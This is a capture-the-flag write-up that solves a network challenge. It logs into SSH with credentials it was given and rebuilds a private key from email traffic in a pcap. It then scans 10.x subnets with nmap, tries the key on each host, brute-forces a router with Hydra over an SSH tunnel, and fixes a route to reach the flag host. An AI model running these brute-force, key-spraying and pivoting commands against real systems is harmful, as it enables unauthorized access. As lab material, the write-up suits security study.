






# SSH

SSH access was given to the first server.

```bash
sshpass -p DioNer ssh kay@10.214.1.11 -p 2200
```

There is a [traffic.pcap](workdir/traffic.pcap) and [router.txt](workdir/router.txt) in the home directory.



# Pcap

There are various packets in the pcap. It is another generated non-realistic pcap with some information hidden. None of the framents contain a full connection.

There are a few [SSH private key](workdir/ssh_key.txt) fragments in email protocols: SMTP, IMAP, POP. It can be stitched together based on begin end and middle part.

Some connection artifacts that might suggest these below.
* Destination 
  + 10.201.0.2:22 (SSH)
* Username
  + `kay` (Original SSH)
  + `user` (HTTP POST)
  + `root` (SSH)
  + `admin@cq2025.com` (email)
* Password 
  + `DioNer` (Original SSH)
  + `pass` (HTTP POST)

# Nmap

Doing an internal portscan reveals no host that accept any of the user/pass combination from above. The whole `10.0.0.0/8` range was also scanned (with hosts that probably do not belong to the challenge). Some only accept private keys.

```bash
for s in {200..254}; do echo "Scanning 10.$s.0.0/24"; ./nmap -T5 -p22 10.$s.0.0/24; done

USER=root; while IFS= read -r host; do \
  ssh -i ./key -o BatchMode=yes -o PasswordAuthentication=no -o PreferredAuthentications=publickey \
      -o ConnectTimeout=1 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
      "$USER@$host" 'echo AUTH_OK' >/dev/null 2>&1 && echo "$host" >> key_success.txt && echo "$host: OK" || echo "$host: FAIL"; \
done < hosts.txt
```

The SSH host from the pcap is not answering.

# Router

The host `router.net1` (10.200.0.254) has pw auth. Attempting to bruteforce it with Hydra works, the credentials are `admin:letmein`.

```bash
sshpass -p DioNer ssh kay@10.214.1.11 -p 2200 -L 22222:10.200.0.254:22
hydra -f -t 8 -s 22222 -L usernames.txt -P /opt/wordlists/seclists/Passwords/xato-net-10-million-passwords-100.txt ssh://localhost
```


The user also has sudo rights.



# Interfaces

The router has 2 interfaces, and the routing is off. The 201 range is not routed correctly.

```bash
ip a
nmap -T4 10.201.0.2
ip route
ip route get 10.201.0.2
```



Fixing the route makes the host from the pcap accessible.

```bash
ip route add 10.201.0.0/24 dev eth1
nmap -T4 10.201.0.2
```

# SSH

Doing another portscan from the router to the 10.201.0.2 reveals that it now answers for port 22, but it is filtered.



Accessing from the initial host is possible, and the flag is revealed after connection.



# Flag
`CQ25{r0uT3_f1X3d_53cr37_f0uNd}`